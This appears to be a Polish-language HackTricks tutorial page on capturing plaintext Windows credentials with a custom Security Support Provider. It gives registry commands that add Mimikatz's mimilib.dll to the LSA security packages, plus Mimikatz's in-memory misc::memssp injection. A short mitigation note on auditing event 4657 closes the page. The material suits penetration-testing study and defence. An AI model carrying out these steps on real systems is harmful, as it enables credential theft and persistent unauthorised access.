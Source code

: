 # Custom SSP

{{#include ../../banners/hacktricks-training.md}}

### Custom SSP

[Dowiedz się, czym jest SSP (Security Support Provider) tutaj.](../authentication-credentials-uac-and-efs/#security-support-provider-interface-sspi)\
Możesz stworzyć **własny SSP**, aby **przechwycić** w **czystym tekście** **poświadczenia** używane do uzyskania dostępu do maszyny.

#### Mimilib

Możesz użyć binarnego pliku `mimilib.dll` dostarczonego przez Mimikatz. **To zapisze wszystkie poświadczenia w czystym tekście do pliku.**\
Umieść dll w `C:\Windows\System32\`\
Uzyskaj listę istniejących pakietów zabezpieczeń LSA:
```bash:attacker@target
PS C:\> reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"

HKEY_LOCAL_MACHINE\system\currentcontrolset\control\lsa
Security Packages    REG_MULTI_SZ    kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u
```
Dodaj `mimilib.dll` do listy dostawców wsparcia bezpieczeństwa (Pakiety zabezpieczeń):
```powershell
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages"
```
A po ponownym uruchomieniu wszystkie poświadczenia można znaleźć w czystym tekście w `C:\Windows\System32\kiwissp.log`

#### W pamięci

Możesz również wstrzyknąć to bezpośrednio do pamięci za pomocą Mimikatz (zauważ, że może to być trochę niestabilne/nie działać):
```powershell
privilege::debug
misc::memssp
```
To nie przetrwa ponownego uruchomienia.

#### Łagodzenie

Identyfikator zdarzenia 4657 - Audyt utworzenia/zmiany `HKLM:\System\CurrentControlSet\Control\Lsa\SecurityPackages`

{{#include ../../banners/hacktricks-training.md}}

